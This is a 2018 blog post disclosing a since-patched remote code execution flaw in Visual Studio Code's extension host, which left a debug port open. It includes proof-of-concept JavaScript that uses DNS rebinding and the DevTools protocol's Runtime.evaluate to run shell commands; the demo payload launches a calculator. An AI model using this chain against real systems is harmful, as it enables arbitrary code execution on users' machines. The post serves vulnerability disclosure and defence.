



---
title:	"Visual Studio Code silently Fixed a Remote Code Execution Vulnerability"
date:	  2018-03-16
image:  img/2018-03-16-visual-studio-code-silently-fixed/electron.jpg
desc:   Better not leave inspectable Electron instances on production.
---

I occasionally noticed that Visual Studio Code was listening on a fixed TCP port 9333. After upgrading to 1.19.3, it's gone.

```
➜ ~ netstat -an | grep 9333
tcp4 0 0 127.0.0.1.9333 *.* LISTEN
```

Looks like it's a bug that affects VSCode 1.19.0~1.19.2. Extension process always run in debug mode, because of an accidentally added `--inspect` argument.

* [Make sure extension don't accidentally run in 'debug'-mode · Issue #39569 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/39569)
* [Clear — inspect* / — debug* arg when starting extension host · Issue #40443 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/40443)

Actually this is not just a bug. **It is exploitable.**

I guess he's found the same problem:

[Vulnerability in 1.19.x · Issue #42116 · Microsoft/vscode](https://github.com/Microsoft/vscode/issues/42116)

To reproduce the bug, download an older release:

* <https://vscode-update.azurewebsites.net/1.19.2/win32-x64/stable>
* <https://vscode-update.azurewebsites.net/1.19.2/darwin/stable>

Exploiting this port is quite simple. **Since it's a debug port you can absolutely inject arbitrary code into debuggee context**. Start Chrome browser an navigate to chrome://inspect



Click "Configure" and add localhost:9333 to the list:



Now click inspect to inject javascript into VS Code process:


And profit!



To weaponize this, we need to interact with devtools protocol from a remote web page. The protocol is based on HTTP and WebSocket. Check out the spec here:

* <https://github.com/ChromeDevTools/devtools-protocol>
* <https://chromedevtools.github.io/devtools-protocol/>

First, get the session id from <http://127.0.0.1:9333/json/list>

```
➜ ~ curl -v localhost:9333/json -H "Host: dns.rebind"
* Trying ::1...
* TCP_NODELAY set
* Connection failed
* connect to ::1 port 9333 failed: Connection refused
* Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 9333 (#0)
> GET /json HTTP/1.1
> Host: dns.rebind
> User-Agent: curl/7.54.0
> Accept: */*
>
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: application/json; charset=UTF-8
< Cache-Control: no-cache
< Content-Length: 649
<
[ {
 "description": "node.js instance",
 "devtoolsFrontendUrl": "chrome-devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f",
 "faviconUrl": "<https://nodejs.org/static/favicon.ico>",
 "id": "c5408ce2-6f06-4a7e-a950-395d95c6804f",
 "title": "/private/var/folders/4d/1_vz_55x0mn_w1cyjwr9w42c0000gn/T/AppTranslocation/EE69BB42-2A16-45F3-BB98-F6639CB594B1/d/Visual Studio Code.app/Contents/Frameworks/Code Helper.app/Contents/MacOS/Code Helper",
 "type": "node",
 "url": "file://",
 "webSocketDebuggerUrl": "ws://127.0.0.1:9333/c5408ce2-6f06-4a7e-a950-395d95c6804f"
} ]
* Closing connection 0
```

See the webSocketDebuggerUrl? That's all we need to attach the debugger.

It's a problem to fetch response from cross origin webpage. [Tavis Ormandy](https://medium.com/u/a82703d95ec2) has already shown some cases through dns-rebinding: <https://project-zero.issues.chromium.org/issues?q=dns%20rebinding>

So an attacker needs to setup a DNS server to alternatively resolve an malicious domain between 127.0.0.1 and the actual web content ip address, with a short TTL. First the browser access the exploit page, then wait for a timeout for the browser to invalidate the previous dns record, so we can bypass same origin policy to read from `evil.com:9333/json/list`, which is actually from localhost.

For those who are interested in DNS rebinding, check these out:

* <https://github.com/ctfs/write-ups-2016/tree/master/0ctf-2016/web/monkey-4>
* <https://lock.cmpxchg8b.com/rebinder.html>
* <https://github.com/lorenzog/dns-rebinding>

Some people asked how long does it take to alter the DNS to 127.0.0.1. During my experiment, I borrow the dns server from <https://lock.cmpxchg8b.com/rebinder.html> and set a 120s script timeout before `XMLHttpRequest` / `fetch`, and it just worked.

```js
function log(msg) {
  const pre = document.createElement('pre');
  pre.appendChild(document.createTextNode(msg));
  document.body.appendChild(pre);
}

const interval = 120 * 1000;
async function main() {
  let list;
  try {
    list = await fetch('/json').then(r => r.json());
  } catch(e) {
    // retry
    log('retry');
    return setTimeout(main, interval);
  }
  const item = list.find(item => item.url.indexOf('file:///') === 0);
  if (!item) return log('invalid response');
  log('url:' + item.webSocketDebuggerUrl);
  // exploit(url);
}
main()
```

Now talk to the WebSocket server to inject the 2nd stage payload.

WebSocket supports cross domain unless the server explicitly checks `Origin:` header upon connection. So communicating with `webSocketDebuggerUrl` does not require any additional dns trick, except that `https://` page can't connect to `ws://`. Finally, call  `Runtime.evaluate` to inject script.

Assume the WebSocket server url is __ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7__, run the following script in any (non-https) webpage to see a calculator:

```js
function exploit(url) {
  function nodejs() {
    const cmd = {
      darwin: 'open /Applications/Calculator.app',
      win32: 'calc',
      linux: 'xcalc',
    };
    process.mainModule.require('child_process').exec(cmd[process.platform])
  };
  const packet = {
    "id": 13371337,
    "method": "Runtime.evaluate",
    "params": {
      "expression": `(${nodejs})()`,
      "objectGroup": "console",
      "includeCommandLineAPI": true,
      "silent": false,
      "contextId": 1,
      "returnByValue": false,
      "generatePreview": true,
      "userGesture": true,
      "awaitPromise": false
    }
  };

  const ws = new WebSocket();
  ws.onopen = () => ws.send(JSON.stringify(packet));
  ws.onmessage = ({ data }) => {
    if (JSON.parse(data).id === 13371337)
      ws.close()
  };
  ws.onerror = err => console.error('failed to connect');
}
exploit('ws://127.0.0.1:9333/c21b0fe3-96a5-4fbc-9687-5e6c8c91a3e7')
```

Compared to [the recent Electron bug](https://medium.com/0xcc/electrons-bug-shellexecute-to-blame-cacb433d0d62), the later requires user interaction and only affects Windows. If you are on these versions, just upgrade. Anyways, the debugging utility will still be enabled if you manually launch VSCode command with `--inspect=[port]`. Better use an alternative random port than 9333 to avoid potential exploit.

P.S.

For any electron based desktop app, there's a `--remote-debugging-port` switch.

**Update 2018-03-30:**

Node.js has officially fixed the remote debugging protocol issue

[March 2018 Security Releases - Node.js](https://nodejs.org/en/blog/vulnerability/march-2018-security-releases/#node-js-inspector-dns-rebinding-vulnerability-cve-2018-7160)
